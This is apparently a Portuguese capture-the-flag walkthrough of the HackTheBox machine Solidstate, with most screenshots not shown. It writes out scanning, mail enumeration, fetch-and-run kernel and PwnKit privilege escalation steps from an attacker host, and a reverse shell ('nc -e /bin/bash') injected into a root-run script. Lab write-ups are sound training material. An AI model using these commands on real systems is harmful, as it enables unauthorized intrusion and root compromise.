 Solidstate
========================

![qownnotes-media-RVyEHc](../../../media/qownnotes-media-RVyEHc.png)

![qownnotes-media-TTlKom](../../../media/qownnotes-media-TTlKom.png)

![qownnotes-media-JJbbQS](../../../media/qownnotes-media-JJbbQS.png)

    sudo nmap -sS --script vuln -n -T5 -Pn solidstate.htb -p 22,25,80,110,119,4555 | tee nmap_vulns.txt

![qownnotes-media-DDnrjU](../../../media/qownnotes-media-DDnrjU.png)

Essa máquina eu já lembrava alguams coisas então ficou um pouco mais fácil, mas vamos lá:

https://www.exploit-db.com/exploits/35513

![qownnotes-media-uaDBuz](../../../media/qownnotes-media-uaDBuz.png)

![qownnotes-media-NSwOSZ](../../../media/qownnotes-media-NSwOSZ.png)

![qownnotes-media-yDIlLk](../../../media/qownnotes-media-yDIlLk.png)


Com o netcat nada funcionava então eu testei com o telnet:


![qownnotes-media-FiRvbv](../../../media/qownnotes-media-FiRvbv.png)

![qownnotes-media-RtdPDM](../../../media/qownnotes-media-RtdPDM.png)

![qownnotes-media-vUSXjY](../../../media/qownnotes-media-vUSXjY.png)

**SMTP Enumeration**

    VRFY root
    VRFY <username>
    
    user <username>
    pass <password>
    list
    
    retr 1
    retr 2


    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
<Ctrl + Z>

    stty raw -echo; fg
    reset

Fiz alguns testes aqui e descobri algumas formas de escalar privilégio. A começar com o método que não funcionou:


    wget http://10.10.14.17/les.sh
    chmod +x les.sh
    ./les.sh
    

    

![qownnotes-media-dgFYPw](../../../media/qownnotes-media-dgFYPw.png)

![qownnotes-media-VGEjEv](../../../media/qownnotes-media-VGEjEv.png)

Na máquina do atacante, eu procurei por logo a primeira opção ques está como probable:

Preciso compilar este código de acordo com a arquitetura x86

    wget https://raw.githubusercontent.com/rlarabee/exploits/master/cve-2017-16995/cve-2017-16995.c
    sudo apt update
    sudo apt install gcc-multilib
    gcc -m32 --static cve-2017-16995.c -o cve-2017-16995
    python -m http.server 80

![qownnotes-media-GZgFqL](../../../media/qownnotes-media-GZgFqL.png)

Na máquina vítima:

    wget http://10.10.14.17/cve-2017-16995 -O c
    chmod +x c
    ./c

![qownnotes-media-AEyzwn](../../../media/qownnotes-media-AEyzwn.png)

Não funcionou, porém com o PwnKit funcionou, mas tem de ser a versão 32 bits:


    wget http://10.10.14.17/PwnKit/PwnKit32 -O p
    chmod +x p
    ./p

Sem novidade

Outra forma de escalar privilégio na máquina é navegando nos diretórios, e no /opt foi onde eu encontrei algo interessante:

    ./pspy64

Coma monitoração de processos, verificamos que o /opt/tmp.py é executado pelo usuário root.

    echo "os.system('nc -e /bin/bash 10.10.14.17 8081')" >> /opt/tmp.py

Só esperar pra vir a shell:

![qownnotes-media-KPNUbn](../../../media/qownnotes-media-KPNUbn.png)

